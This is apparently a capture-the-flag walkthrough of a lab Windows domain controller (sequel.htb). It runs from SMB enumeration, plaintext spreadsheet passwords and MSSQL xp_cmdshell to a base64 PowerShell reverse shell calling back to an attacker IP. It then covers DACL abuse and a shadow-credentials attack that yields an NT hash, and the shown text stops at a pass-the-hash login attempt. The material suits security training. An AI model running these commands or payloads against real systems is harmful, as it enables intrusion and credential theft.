SMB dc0 445 DC01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB dc0 445 DC01 [+] sequel.htb\rose:KxEPkKe6R8su
SMB dc0 445 DC01 [+] Enumerated domain user(s)
SMB dc0 445 DC01 sequel.htb\ca_svc badpwdcount: 0 desc:
SMB dc0 445 DC01 sequel.htb\rose badpwdcount: 0 desc:
SMB dc0 445 DC01 sequel.htb\sql_svc badpwdcount: 0 desc:
SMB dc0 445 DC01 sequel.htb\oscar badpwdcount: 1 desc:
SMB dc0 445 DC01 sequel.htb\ryan badpwdcount: 0 desc:
SMB dc0 445 DC01 sequel.htb\michael badpwdcount: 3 desc:
SMB dc0 445 DC01 sequel.htb\krbtgt badpwdcount: 1 desc: Key Distribution Center Service Account
SMB dc0 445 DC01 sequel.htb\Guest badpwdcount: 1 desc: Built-in account for guest access to the computer/domain
SMB dc0 445 DC01 sequel.htb\Administrator badpwdcount: 6 desc: Built-in account for administering the computer/domain
SMB dc0 445 DC01 [+] Brute forcing RIDs
SMB dc0 445 DC01 498: SEQUEL\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB dc0 445 DC01 500: SEQUEL\Administrator (SidTypeUser)
SMB dc0 445 DC01 501: SEQUEL\Guest (SidTypeUser)
SMB dc0 445 DC01 502: SEQUEL\krbtgt (SidTypeUser)
SMB dc0 445 DC01 512: SEQUEL\Domain Admins (SidTypeGroup)
SMB dc0 445 DC01 513: SEQUEL\Domain Users (SidTypeGroup)
SMB dc0 445 DC01 514: SEQUEL\Domain Guests (SidTypeGroup)
SMB dc0 445 DC01 515: SEQUEL\Domain Computers (SidTypeGroup)
SMB dc0 445 DC01 516: SEQUEL\Domain Controllers (SidTypeGroup)
SMB dc0 445 DC01 517: SEQUEL\Cert Publishers (SidTypeAlias)
SMB dc0 445 DC01 518: SEQUEL\Schema Admins (SidTypeGroup)
SMB dc0 445 DC01 519: SEQUEL\Enterprise Admins (SidTypeGroup)
SMB dc0 445 DC01 520: SEQUEL\Group Policy Creator Owners (SidTypeGroup)
SMB dc0 445 DC01 521: SEQUEL\Read-only Domain Controllers (SidTypeGroup)
SMB dc0 445 DC01 522: SEQUEL\Cloneable Domain Controllers (SidTypeGroup)
SMB dc0 445 DC01 525: SEQUEL\Protected Users (SidTypeGroup)
SMB dc0 445 DC01 526: SEQUEL\Key Admins (SidTypeGroup)
SMB dc0 445 DC01 527: SEQUEL\Enterprise Key Admins (SidTypeGroup)
SMB dc0 445 DC01 553: SEQUEL\RAS and IAS Servers (SidTypeAlias)
SMB dc0 445 DC01 571: SEQUEL\Allowed RODC Password Replication Group (SidTypeAlias)
SMB dc0 445 DC01 572: SEQUEL\Denied RODC Password Replication Group (SidTypeAlias)
SMB dc0 445 DC01 1000: SEQUEL\DC01$ (SidTypeUser)
SMB dc0 445 DC01 1101: SEQUEL\DnsAdmins (SidTypeAlias)
SMB dc0 445 DC01 1102: SEQUEL\DnsUpdateProxy (SidTypeGroup)
SMB dc0 445 DC01 1103: SEQUEL\michael (SidTypeUser)
SMB dc0 445 DC01 1114: SEQUEL\ryan (SidTypeUser)
SMB dc0 445 DC01 1116: SEQUEL\oscar (SidTypeUser)
SMB dc0 445 DC01 1122: SEQUEL\sql_svc (SidTypeUser)
SMB dc0 445 DC01 1128: SEQUEL\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB dc0 445 DC01 1129: SEQUEL\SQLRUserGroupSQLEXPRESS (SidTypeAlias)
SMB dc0 445 DC01 1601: SEQUEL\rose (SidTypeUser)
SMB dc0 445 DC01 1602: SEQUEL\Management Department (SidTypeGroup)
SMB dc0 445 DC01 1603: SEQUEL\Sales Department (SidTypeGroup)
SMB dc0 445 DC01 1604: SEQUEL\Accounting Department (SidTypeGroup)
SMB dc0 445 DC01 1605: SEQUEL\Reception Department (SidTypeGroup)
SMB dc0 445 DC01 1606: SEQUEL\Human Resources Department (SidTypeGroup)
SMB dc0 445 DC01 1607: SEQUEL\ca_svc (SidTypeUser)
Great, we got the users and groups.
Ok, from the nmap scan, we know that there are 2 webs running on this server on the 5985 and 47001 ports, and in the same nmap we can see that the message we get is Not Found
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Looking at the internet, I see that this ports are used by WinRM: - https://www.speedguide.net/port.php?port=5985 - https://www.speedguide.net/port.php?port=47001 So, it's worth noting that the server has windows RM and we can connect once we have a working user credential.
It also has Microsoft SQL Server 2019, so maybe we can enter the database and get some credentials.
Attack phase
Gaining access
So right now, the most important things we have: - List of the AD users - SMB shares to explore - Microsoft SQL to connect - Microsoft RM to connect
Let's explore the SMB shares.
┌──(oriol㉿zero)-[~/escapetwo]
└─$ smbclient '\\sequel.htb\Accounting Department' -U rose%KxEPkKe6R8su
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Sun Jun 9 12:52:21 2024
.. D 0 Sun Jun 9 12:52:21 2024
accounting_2024.xlsx A 10217 Sun Jun 9 12:14:49 2024
accounts.xlsx A 6780 Sun Jun 9 12:52:07 2024
6367231 blocks of size 4096. 926522 blocks available
smb: \> get accounting_2024.xlsx
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (59.0 KiloBytes/sec) (average 59.0 KiloBytes/sec)
smb: \> get accounts.xlsx
getting file \accounts.xlsx of size 6780 as accounts.xlsx (38.1 KiloBytes/sec) (average 48.4 KiloBytes/sec)
smb: \>
I connect to the "Accounting department" share and already see a very interesting file: accounts.xlsx, I download all of the files with the get command.
I try to open the xlsx files, but after trying different character sets, it seems that the file is corrupted or something, as I don't see any plain text: 
Excel files can be treated as a compressed file, and inside they have xml files with the values, let's try to decompress it and see if something is redable.
┌──(oriol㉿zero)-[~/escapetwo]
└─$ unzip accounts.xlsx
Archive: accounts.xlsx
file #1: bad zipfile offset (local header sig): 0
inflating: xl/workbook.xml
inflating: xl/theme/theme1.xml
inflating: xl/styles.xml
inflating: xl/worksheets/_rels/sheet1.xml.rels
inflating: xl/worksheets/sheet1.xml
inflating: xl/sharedStrings.xml
inflating: _rels/.rels
inflating: docProps/core.xml
inflating: docProps/app.xml
inflating: docProps/custom.xml
inflating: [Content_Types].xml
On the sharedStrings.xml file we can see the values of the cells:
┌──(oriol㉿zero)-[~/escapetwo/xl]
└─$ cat sharedStrings.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preserve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:space="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t></si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malone</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst>
Plain text passwords! The most interesting password is this: MSSQLP@ssw0rd! of the user sa it all indicates that this is the SQL user, so let's try to log in to the exposed Microsoft SQL found earlier.
I connect using the mssqlclient script from impacket
┌──(oriol㉿zero)-[~/escapetwo/xl/worksheets/_rels]
└─$ impacket-mssqlclient -port 1433 sequel.htb/sa:'MSSQLP@ssw0rd!'@sequel.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (sa dbo@master)>
And we are in!
Looking at the databses table we can see all the dabases on the server:
SQL (sa dbo@master)> SELECT name, database_id, create_date FROM sys.databases;
name database_id create_date
------ ----------- -----------
master 1 2003-04-08 09:13:36
tempdb 2 2025-03-01 10:23:09
model 3 2003-04-08 09:13:36
msdb 4 2019-09-24 14:21:42
SQL (sa dbo@master)>
master seems promising.
This are the tables from master:
SQL (sa dbo@master)> select * from information_schema.tables;
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE
------------- ------------ --------------------- ----------
master dbo spt_fallback_db b'BASE TABLE'
master dbo spt_fallback_dev b'BASE TABLE'
master dbo spt_fallback_usg b'BASE TABLE'
master dbo spt_values b'VIEW'
master dbo spt_monitor b'BASE TABLE'
master dbo MSreplication_options b'BASE TABLE'
SQL (sa dbo@master)>
After searching for a time, I don't see any stored credentials that we can use. impacket lets us execute windows commands inside the MS SQL shell, for this to work, it has to be activated:
SQL (sa dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa dbo@master)> reconfigure;
Ok, now we can execute windows commands:
SQL (sa dbo@master)> xp_cmdshell whoami
output
--------------
sequel\sql_svc
NULL
Let's try to create a reverse shell for convinience. I use Powershell #3 base64 encoded from https://www.revshells.com/
SQL (sa dbo@master)> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAxADIAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
And we got a reverse shell!
┌──(oriol㉿zero)-[~/escapetwo]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.112] from dc0 [10.10.11.51] 55149
whoami
sequel\sql_svc
PS C:\Windows\system32>
Seems that the user is still not owned as there is no flag on the sql_svc desktop, maybe we have to move to the ryan user:
PS C:\> cd Users
PS C:\Users> ls
Directory: C:\Users
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 12/25/2024 3:10 AM Administrator
d-r--- 6/9/2024 4:11 AM Public
d----- 6/9/2024 4:15 AM ryan
d----- 6/8/2024 4:16 PM sql_svc
Exploring the Windows files, I see something interesting:
PS C:\SQL2019> cd ExpressAdv_ENU
PS C:\SQL2019\ExpressAdv_ENU> ls
Directory: C:\SQL2019\ExpressAdv_ENU
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 6/8/2024 3:07 PM 1033_ENU_LP
d----- 6/8/2024 3:07 PM redist
d----- 6/8/2024 3:07 PM resources
d----- 6/8/2024 3:07 PM x64
-a---- 9/24/2019 10:03 PM 45 AUTORUN.INF
-a---- 9/24/2019 10:03 PM 788 MEDIAINFO.XML
-a---- 6/8/2024 3:07 PM 16 PackageId.dat
-a---- 9/24/2019 10:03 PM 142944 SETUP.EXE
-a---- 9/24/2019 10:03 PM 486 SETUP.EXE.CONFIG
-a---- 6/8/2024 3:07 PM 717 sql-Configuration.INI
-a---- 9/24/2019 10:03 PM 249448 SQLSETUPBOOTSTRAPPER.DLL
PS C:\SQL2019\ExpressAdv_ENU> cat AUTORUN.INF
[autorun]
OPEN=SETUP.EXE
ICON=SETUP.EXE,0
PS C:\SQL2019\ExpressAdv_ENU> cat sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
PS C:\SQL2019\ExpressAdv_ENU>
Seems that this are the MS SQL configuration files and we can see a plain text password for the user sql_svc.
So, let's try to login with those credentials via winrm.
┌──(oriol㉿zero)-[~]
└─$ evil-winrm -i sequel.htb -u "sql_svc" -p "WqSZAF6CysDQbGb3"
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
No luck... Maybe with that ryan user?
┌──(oriol㉿zero)-[~]
└─$ evil-winrm -i sequel.htb -u "ryan" -p "WqSZAF6CysDQbGb3"
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents>
Yes! Let's collect the user flag.
Privilege escalation
Fist of all, before trying anything AD related, let's do the usual and see which privileges the ryan user has.
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /all
USER INFORMATION
----------------
User Name SID
=========== ============================================
sequel\ryan S-1-5-21-548670397-972687484-3496335370-1114
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
=========================================== ================ ============================================ ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users Alias S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access Alias S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
SEQUEL\Management Department Group S-1-5-21-548670397-972687484-3496335370-1602 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label S-1-16-8448
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
USER CLAIMS INFORMATION
-----------------------
User claims unknown.
Kerberos support for Dynamic Access Control on this device has been disabled.
At first glance I don't see anything easly exploitable.
WIth bloodhound we can "export" all the AD objects and see the relationships and privileges in a graphical way.
So, let's first connect to the DC with the ryan credentials via bloodhound.
┌──(oriol㉿zero)-[~/escapetwo/bloodhound]
└─$ bloodhound-python -u ryan -p "WqSZAF6CysDQbGb3" -d sequel.htb -ns $target -c All
INFO: Found AD domain: sequel.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.sequel.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 10 users
INFO: Found 59 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.sequel.htb
INFO: Done in 00M 23S
With bloodhound-python I collect all the info from the sequel.htb domain (-d flag). I connect with the ryan user (-u and -p flags to pass the credentials). I also make the bloodhound user the dc IP as name server, this way it can access all of the domain objects's names, like dc01.sequel.htb. With the -c All flag it retrieves all information available.
After bloodhound is over, a bunch of .json files with the information retrieved will appear on the current folder.
┌──(oriol㉿zero)-[~/escapetwo/bloodhound]
└─$ ls
20250304204550_computers.json 20250304204550_containers.json 20250304204550_domains.json 20250304204550_gpos.json 20250304204550_groups.json 20250304204550_ous.json 20250304204550_users.json 20250304205159_groups.json
Ok, now time to feed all those files to the bloodhound program. First, start the database:
┌──(oriol㉿zero)-[~/escapetwo/bloodhound]
└─$ sudo neo4j console
Directories in use:
home: /usr/share/neo4j
config: /usr/share/neo4j/conf
logs: /etc/neo4j/logs
plugins: /usr/share/neo4j/plugins
import: /usr/share/neo4j/import
data: /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses: /usr/share/neo4j/licenses
run: /var/lib/neo4j/run
Starting Neo4j.
2025-03-01 20:48:37.962+0000 INFO Starting...
2025-03-01 20:48:38.319+0000 INFO This instance is ServerId{f9e4cd1f} (f9e4cd1f-7554-4eed-8a51-95b1200a22ef)
2025-03-01 20:48:39.044+0000 INFO ======== Neo4j 4.4.26 ========
2025-03-01 20:48:39.741+0000 INFO Performing postInitialization step for component 'security-users' with version 3 and status CURRENT
2025-03-01 20:48:39.741+0000 INFO Updating the initial password in component 'security-users'
2025-03-01 20:48:39.830+0000 INFO Bolt enabled on localhost:7687.
2025-03-01 20:48:40.374+0000 INFO Remote interface available at http://localhost:7474/
2025-03-01 20:48:40.376+0000 INFO id: A3D87B3BC060F87F236ECD3DD1903AB2A52456718CB47111410B8D909274360D
2025-03-01 20:48:40.376+0000 INFO name: system
2025-03-01 20:48:40.377+0000 INFO creationDate: 2025-03-01T20:48:22.538Z
2025-03-01 20:48:40.377+0000 INFO Started.
Then, start bloodhound and feed the json with the upload files button.

Now we can use some pre-defined queries on the Bloodhound program, or use custom query. We owned the ryan user, so I will select the ryan node and on the "Node Info" tab, and over there we can select some pre-defined queries, like group membership and other.

Playing a little bit with the queries, I see this:

Ryan is WriteOwner of the ca_svc object! This user is normally used for certificate administration on the AD.
Looking at the ca_svc user relationships just confirms my suspicion, it's a member of the cert publisher group.

Ok, so, right now we have the ryan user, which has write permissions on the ca_svc user, which in essence can publish certificates.
By rightclicking the "WriteOwner" connection between ryan and ca_svc and selecting "Help" Bloodhound will show how to abuse those permissions.

Reading the help, the attacks we can do (in order) are: - Take ownership of the object - Targeted Kerberoast - Force change password - Shadow credentials attack
So, let's change the owner of the ca_svc object to be ryan, this way it will be easier for us and we could change the permissions of the ca_svc to get control rights.
I use bloodyAD, I simply input the target ip, domain, ryan's credentials and the command I want to execute set owner "ca_svc" "ryan".
BloodyAD can do basic ldap operations, like add, get, remove and set.
┌──(oriol㉿zero)-[~/escapetwo]
└─$ bloodyAD --host $target -d "sequel.htb" -u "ryan" -p "WqSZAF6CysDQbGb3" set owner "ca_svc" "ryan"
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
Now that we are the owner of the ca_svc user, we can give full control to the ca_svc to the user ryan.
I do this with the dacledit script of impacket, like bloodyAD it doesn't have any mistery this command, simply write FullControl for the ryan user on the ca_svc user (got the full ns from bloodhound, so I just copy pasted it)
I used this guide: https://www.thehacker.recipes/ad/movement/dacl/grant-rights (It can also be done with bloody-ad, and viceversa)
┌──(oriol㉿zero)-[~/escapetwo]
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target-dn 'CN=CERTIFICATION AUTHORITY,CN=USERS,DC=SEQUEL,DC=HTB' -inheritance "SEQUEL.HTB"/"ryan":"WqSZAF6CysDQbGb3"
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250305-194536.bak
[*] DACL modified successfully!
I will first try to use the shadow credentials attack, as the Kerberoast attack at the moment I believed that it only was is useful with service user accounts (like SQL service users, ISS,...), and I searched and I don't see ca_svc as a name of a certificate user, meaning that this is a custom user which manages the certificates, not a user for the certificate service (?). Note that this could also work, because with the WriteOwner privileges we can add a SNP to the user and then do a kerberoast attack, but at the moment I didn't know lol.
Forcing a password change would screw up all the other users working on the box.
So, let's try a shadow credentials attack. I've read this very useful post which explains technicalities and also how to attack the shadow credentials. - https://i-tracing.com/blog/dacl-shadow-credentials/
Here is a quick summary: It exploits the msDS-KeyCredentialLink user property, which is used by Kerberos to stores the public key credentials, and can be exploited if we have permissions to edit the user in question (we have), and also the server is a 2016 and higher, with PKINIT support.
What we will do:
- Add a malicious public key to the ca_svc msDS-KeyCredentialLink property.
- This public key will be used (with also our private key that pywhisker also created) to create a pfx certificate.
- That pfx certificate will be used to prove ownership of the private key during authentication
- Get a TGT or obtain the NT Hash of the ca_svc user

With pyhisker we can see the msDS-KeyCredentialLink properties:
┌──(oriol㉿zero)-[~/escapetwo/pywhisker/pywhisker]
└─$ python pywhisker.py -d "sequel.htb" -u "ryan" -p "WqSZAF6CysDQbGb3" --target "ca_svc" --action "list"
[*] Searching for the target account
[*] Target user found: CN=Certification Authority,CN=Users,DC=sequel,DC=htb
[*] Listing devices for ca_svc
[*] DeviceID: aa8e7850-af18-5650-e4e8-deab35b31ab3 | Creation Time (UTC): 2025-03-05 19:10:39.398449
[*] DeviceID: d76f365f-8b89-1b57-0b14-c9d4367cfac0 | Creation Time (UTC): 2025-03-05 18:43:31.284914
We can see that already 2 persons already did that.
I use the same pywhisker command, but add -a "add" at the end, to make the action add.
┌──(oriol㉿zero)-[~/escapetwo/pywhisker/pywhisker]
└─$ python pywhisker.py -d "sequel.htb" -u "ryan" -p "WqSZAF6CysDQbGb3" --target "ca_svc" -a "add"
[*] Searching for the target account
[*] Target user found: CN=Certification Authority,CN=Users,DC=sequel,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 400cffc2-194b-1944-ce70-32c8955ec587
[*] Updating the msDS-KeyCredentialLink attribute of ca_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: I12oujCa.pfx
[+] PFX exportiert nach: I12oujCa.pfx
[i] Passwort für PFX: wCBumYFOMqP3qEHFSj3z
[+] Saved PFX (#PKCS12) certificate & key at path: I12oujCa.pfx
[*] Must be used with password: wCBumYFOMqP3qEHFSj3z
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Ok, nice, what pywhisker did was input a public key on the msDS-KeyCredentialLink atribute.
It also doess a pfx certificate:
┌──(oriol㉿zero)-[~/escapetwo/pywhisker/pywhisker]
└─$ ls
I12oujCa.pfx I12oujCa_cert.pem I12oujCa_priv.pem
Let's unencrypt the certificate with certypi
┌──(oriol㉿zero)-[~/escapetwo/pywhisker/pywhisker]
└─$ certipy-ad cert -export -pfx "I12oujCa.pfx" -password "wCBumYFOMqP3qEHFSj3z" -out unprotected_pfx.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Writing PFX to 'unprotected_pfx.pfx'
Once the certificate is unencrypted we can read the hash of the user by trying to authenticate with the corresponding user and reading the TGT ticket:
┌──(oriol㉿zero)-[~/escapetwo/pywhisker/pywhisker]
└─$ certipy-ad auth -pfx "unprotected_pfx.pfx" -user ca_svc -domain sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[!] Could not find identification in the provided certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Got hash for 'ca_svc@sequel.htb': aad3b435b51404eeaad3b435b51404ee:3b181b914e7a9d5508ea1e20bc2b7fce
What the certipy command does, is authenticate as the ca_svc user using the unencrypted certificate (via PKINIT authentication, this means we can authenticate using the private key), so it works like this: - First, we have our malicious public key on the properties of the AD object - The client (certipy) sends a Kerberos Authenticate Service Request (AS-REQ) to the KDC (Key Distribution Center, the domain), this message contains the public key and also a signed timestamp with the private key. - The KDC goes to the object and retrives the public key, and verifies if the corresponding signed timestamp is correct - Once validated, the KDC issues a TGT (Ticket Granting Ticket) - The TGT is finally send to the client encrypted with the public key.
And we have a TGT!
With the TGT, certipy gets the NT hash of the user by using the U2U protocol, which permits a user request a NT hash of a user account, so the KDC gives us the NT Hash encrypted with the session key of the TGT.
It's worth noting that certipy automates all of this with the shadow auto command:
┌──(oriol㉿zero)-[~/escapetwo]
└─$ certipy-ad shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip $target
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'dcee31c5-00d1-863d-f4cc-423daf8671d8'
[*] Adding Key Credential with device ID 'dcee31c5-00d1-863d-f4cc-423daf8671d8' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'dcee31c5-00d1-863d-f4cc-423daf8671d8' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
Also, it's worth noting, that as this is using Kerberos authentication, which heavily uses timestamps, it's good recommendation to synchronize the date with the DC.
┌──(oriol㉿zero)-[~/escapetwo]
└─$ sudo ntpdate sequel.htb
[sudo] password for oriol:
2025-03-06 20:39:22.879169 (+0100) -100.392126 +/- 0.435823 sequel.htb 10.10.11.51 s1 no-leap
CLOCK: time stepped by -100.392126
My intention was to remote to the server via evil-winrm and it's function to use the pas the hash, but it seems that this user (understandably, as is a service user) can't remote manage the server:
┌──(oriol㉿zero)-[~/escapetwo]
└─$ evil-winrm -i sequel.htb -u "ca_svc" -H "3b181b914e7a9d5508ea1e20bc2b7fce"
Evil-WinRM shell v3.7
